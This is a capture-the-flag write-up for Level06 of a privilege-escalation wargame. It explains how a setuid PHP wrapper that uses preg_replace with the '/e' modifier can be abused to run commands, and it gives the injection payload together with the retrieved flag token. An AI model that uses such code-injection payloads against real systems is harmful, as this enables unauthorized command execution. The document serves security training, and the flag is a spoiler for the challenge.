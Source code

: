 # Level06 Writeup

## Objective
Gain access to the `flag06` user and retrieve the password for `level07`.

## Steps Taken

1. **Initial Inspection**  
   Listing files in the home directory revealed:
   ```
   -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
   -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
   ```
   Both files are owned by `flag06` and accessible by `level06`, suggesting they may be exploitable.

2. **Analyzing the PHP Script**  
   The contents of `level06.php`:
   ```php
   #!/usr/bin/php
   <?php
   function y($m) {
       $m = preg_replace("/\./", " x ", $m);
       $m = preg_replace("/@/", " y", $m);
       return $m;
   }
   function x($y, $z) {
       $a = file_get_contents($y);
       $a = preg_replace("/(\[x (.*)\])/e", "y("\\2")", $a);
       $a = preg_replace("/\[/", "(", $a);
       $a = preg_replace("/\]/", ")", $a);
       return $a;
   }
   $r = x($argv[1], $argv[2]);
   print $r;
   ?>
   ```
   - The vulnerable line is:
     ```php
     $a = preg_replace("/(\[x (.*)\])/e", "y("\\2")", $a);
     ```
     It uses the deprecated `e` modifier in regex, which evaluates the match as PHP code — making it vulnerable to code injection.

3. **Exploit Construction**  
   I created a file containing an injected payload:
   ```bash
   echo '[x ${`getflag`}]' > /tmp/getflag
   ```
   Then I executed the PHP wrapper:
   ```bash
   ./level06 /tmp/getflag
   ```

4. **Retrieve the Flag**  
   The output included:
   ```
   PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
   ```
   This confirmed successful code execution and revealed the flag.

## Result
Successfully retrieved the password for `level07`:  
```
wiok45aaoguiboiki2tuin6ub
```
